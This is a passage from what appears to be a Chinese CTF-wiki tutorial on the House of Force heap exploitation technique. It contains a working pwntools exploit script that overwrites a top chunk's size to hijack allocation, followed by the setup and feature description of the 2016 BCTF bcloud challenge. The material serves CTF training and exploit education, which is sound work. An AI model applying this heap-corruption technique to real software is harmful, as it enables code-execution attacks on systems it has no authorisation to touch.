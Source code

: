 ```shell

magic = 0x400d49
# we must alloc enough size, so as to successfully alloc from fake topchunk
additem(0x30, "ddaa")  # idx 0
payload = 0x30 * 'a'  # idx 0's content
payload += 'a' * 8 + p64(0xffffffffffffffff)  # top chunk's prev_size and size
# modify topchunk's size to -1
modify(0, 0x41, payload)
# top chunk's offset to heap base
offset_to_heap_base = -(0x40 + 0x20)
malloc_size = offset_to_heap_base - 0x8 - 0xf
#gdb.attach(r)
additem(malloc_size, "dada")
additem(0x10, p64(magic) * 2)
print r.recv()
r.interactive()

```

當然，這一題也可以使用 unlink 的方法來做。

## 2016 BCTF bcloud
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/house-of-force/2016_bctf_bcloud)

### 基本信息

```shell
➜  2016_bctf_bcloud git:(master) file bcloud   
bcloud: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=96a3843007b1e982e7fa82fbd2e1f2cc598ee04e, stripped
➜  2016_bctf_bcloud git:(master) checksec bcloud  
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/2016_bctf_bcloud/bcloud'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，這是一個動態鏈接的 32 位程序，主要開啓了 Canary 保護與 NX 保護。

### 基本功能

程序大概是一個雲筆記管理系統。首先，程序會進行一些初始化，設置用戶的名字，組織，host。程序主要有以下幾個功能

1. 新建note，根據用戶的輸入x申請x+4的空間作爲note的大小。
2. 展示note，啥功能也沒有。。
3. 編輯note，根據用戶指定的 note 編輯對應的內容。
4. 刪除note，刪除對應note。
5. 同步note，標記所有的note已經被同步。
